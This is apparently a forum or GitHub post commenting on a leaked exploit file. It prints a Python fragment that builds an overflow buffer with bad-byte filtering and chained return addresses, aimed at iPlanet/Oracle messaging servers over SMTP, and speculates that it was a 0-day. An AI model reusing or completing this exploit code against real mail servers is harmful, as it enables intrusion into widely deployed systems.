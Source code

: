 ```python
1 import time
  2 import smtpUtils
  3 import systems
  4 import utils
  5
  6 class iplanet:
  7    badBytes = [0x0, 0xa, 0xd]
  8    nAttempts = 1
  9
 10    def buildBaseBuffer(self, imtaBase):
 11       filler = utils.buildBuffer(self.baseBufLen, self.badBytes)
 12       baseBuf = filler[0x0:]
 13       return baseBuf
 14
 15    def buildBounceBuffer(self):
 16       imtaBase = self.imtaBase
 17       baseBuf = self.buildBaseBuffer(imtaBase)
 18       l7 = (imtaBase + self.l7Imta) + self.l7Offset
 19       fp = imtaBase + self.fp
 20       filler = utils.buildBuffer(0x18, self.badBytes)
 21       bounceBuf = baseBuf \
 22                   + utils.stringifyAddr(l7) \
 23                   + filler \
 24                   + utils.stringifyAddr(fp) \
 25                   + utils.stringifyAddr(self.pc - 8)
 26       return bounceBuf
 27
```

It seems to be using smtp, so it very much seems like they had (or have) a way of gaining access to a ridiculously often used Enterprise Multi-Tier messaging platform... by sending an email.
And it probably paid off nicely for these guys to have this 0-day (https://en.wikipedia.org/wiki/Oracle_Communications_Messaging_Server):

>Oracle Communications Messaging Server is Oracle's messaging (email) server software.
>The software was obtained by Oracle as part of the company's acquisition of Sun in 2010.
>
>Oracle's Messaging Server could potentially be the most widely deployed commercial
>email server on the planet, with claims of 150 million mailboxes deployed worldwide
>(mostly by ISPs, telcos, universities, government, and cable TV broadband providers).
>History of development
>
>Oracle Communications Messaging Server has a long history, drawing technology from
>
>    Sun Internet Mail Server (SIMS)
>    Netscape Messaging Server (NMS)[2]
>    PMDF from Innosoft
>
>In addition to the Messaging Server's three parents, the software has undergone multiple
>brand naming changes:
>
>    iPlanet Messaging Server
>    Sun ONE Messaging Server
>    Sun Java System Messaging Server
>    Oracle Communications Messaging Exchange Server
>    Oracle Communications Messaging Server
>
>The code base has been carried on throughout these minor brand changes 
>**with only feature enhancements and bug fixes.**

